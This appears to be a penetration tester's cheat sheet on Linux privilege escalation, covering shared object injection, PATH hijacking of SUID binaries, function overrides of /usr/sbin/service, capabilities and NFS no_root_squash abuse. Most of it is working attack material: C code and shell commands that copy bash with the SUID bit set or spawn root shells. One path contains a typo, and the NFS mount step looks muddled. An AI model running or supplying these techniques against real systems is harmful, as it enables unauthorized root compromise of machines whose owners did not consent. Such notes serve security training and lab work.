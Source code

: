 #### Shared Object Injection
`strace $binary 2>&1` - strace intercepts and records the system calls which are called by a process and the signals which are received by a process.
- then try to overwrite anything that shows up as (No such file or directory)
- may need a .c file to exploit, EX:
	```
	#include <stdio.h>
	#include <stdlib.h>

	static void inject() __attribute__((constructor));

	void inject() {
		system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
	}
	```
- then `gcc -shared -fPIC -o $outputLocation $exploitLocation.c`
- `gcc -shared -fPIC -nostartfiles -o file file.c`
- note that you can change this to `$file.so`

#### Binary Symlink Escalation
Vulnerability with nginx, an http and reverse proxy server
https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html

#### Escalation via Environmental Variables
Run the find SUID command, then run strings on the binary if you don't know what it does
If it starts a service from the PATH, you can `print $PATH`
- If it doesn't have a direct PATH:
	- one line c command: `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
	- so the one liner is actually: `int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}`
	- then `gcc /tmp/service.c -o /tmp/service`
	- then: `export PATH=/tmp:$PATH`
	- This means that when you call a service, the system will check /tmp first as it is the start of the PATH
- If it does have a direct PATH (like /usr/sbin/service)
	- `function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }`
	- `export -f /usr/sbin/service` - 

#### Capabilities
`getcap -r / 2>/dev/null` - this will show up during linpeas, but it's still good to know 

#### NFS Root Squashing
- `cat /etc/exports`
	- if it says `'no_root_squash'` then the directory shown is shareable and can be mounted
	- Because it's no root squash, everything we do as root on our machine, it will be as root as the target machine even though we are a normal user on the target
so from kali: 
- `mkdir /tmp/mountme`
- `mount -o rw,vers=2 $kaliIP:/tmp /tmp/mountme`
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- `gcc /tmp/mountme/x.c -o /tmo/mountme/x`
- `chmod +s /tmp/mountme/x`
then from target:
- `./x`
